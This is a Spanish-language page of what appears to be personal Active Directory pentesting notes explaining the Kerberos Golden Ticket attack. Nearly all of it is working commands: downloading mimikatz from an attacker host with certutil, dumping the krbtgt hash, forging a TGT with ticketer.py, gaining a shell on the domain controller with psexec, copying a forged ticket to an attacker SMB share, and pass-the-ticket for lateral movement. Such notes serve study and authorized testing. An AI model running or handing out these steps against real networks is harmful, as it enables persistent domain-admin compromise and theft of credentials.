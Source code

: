 # Que es un Golden Tiket Attack?
El objetivo del ataque del Golden Ticket es construir un `TGT`, para lo cual se necesita el hash de la cuenta `krbtgt`, ya que es el que se usa para cifrar dicho ticket. Una vez obtenido este hash es posible construir un TGT con la caducidad que se desee y con los permisos que uno quiera, consiguiendo incluso privilegio de administrador de dominio. Una vez se cree el ticket, podremos acceder al DC cuando queramos aunque se cambie la contraseña del mismo.

# Efectuar Golden Ticket Attack
Para comenzar debemos subir el `mimikatz` al DC, podemos hacer por con `upload` en una sesión de evil-winrm o con:
```
certutil.exe -f -urlcache -split http://192.168.145.133:8000/mimikatz.exe mimikatz.exe
```
Posteriormente ejecutamos el mimikatz con `mimikatz.exe` y en la sesión interactiva ponemos lo siguiente:
```
lsadump::lsa /inject /name:krbtgt
```
Ahora creamos un ticket con ticketer.py ejecutando el siguiente comando:
```
ticketer.py -nthash <hash_NTLM> -domain-sid <sid_krbtgt> -domain <dominio> <nombre_exportación>
```
[Ver ejemplo](/Apuntes-AD/Images/15.md)

Tenemos que exportar una variable de entorno con la ruta del ticket.
```
export KRB5CCNAME="/home/kali/Desktop/AD/Administrador.ccache"
```
Ahora con `psexec` podemos conectar directamente al DC sin proporcionar contraseña de la siguiente forma:
```
psexec.py -n -k <dominio>/<domain_admin>@<nombre_DC> cmd.exe
```
[Ver ejemplo](/Apuntes-AD/Images/16.md)

# Movimiento Lateral
Podemos crear un `golden.kirbi` para cargarlo con mimikatz en una máquina y ganar privilegios de acceso a un equipo, para ello en una sesión de mimikatz haremos lo siguiente:
```
kerberos::golden /domain:<dominio>  /sid:<sid_krbtgt> /rc4:<hash_NTLM> /name:<nombre de usuario a Impersonalizar> /ticket:golden.kirbi
```
Luego nos podemos traer ese ticket a nuestro equipo  con `download` en una sesión de evil-winrm o creando un recurso compartido a nivel de red con:

Máquina atacante:
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
Máquina víctima:
```
copy golden.kirby \\<ip_atacante>\smbFolder\golden.kirbi
```
Ahora nos conectamos al equipo donde queremos hacer un `Pass The Ticket`, subimos el mimikatz, lo ejecutamos y en la sesión interactiva ponemos lo siguiente:
```
kerberos::ptt golden.kirby
```
